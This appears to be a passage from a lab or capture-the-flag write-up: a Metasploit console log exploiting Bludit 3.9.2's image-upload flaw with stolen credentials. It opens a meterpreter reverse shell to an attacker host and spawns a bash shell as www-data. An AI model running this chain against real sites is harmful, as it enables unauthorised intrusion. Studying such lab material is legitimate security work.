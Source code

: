 ```
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.29      yes       The listen address (an interface may be specified)
   LPORT  80               yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2
```

```
msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.29:80 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading AqdgdpaOLi.png...
[*] Uploading .htaccess...
[*] Executing AqdgdpaOLi.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 2 opened (10.10.14.29:80 -> 10.10.10.191:34040) at 2020-05-30 16:59:15 -0400
[+] Deleted .htaccess

meterpreter > shell
Process 5132 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```
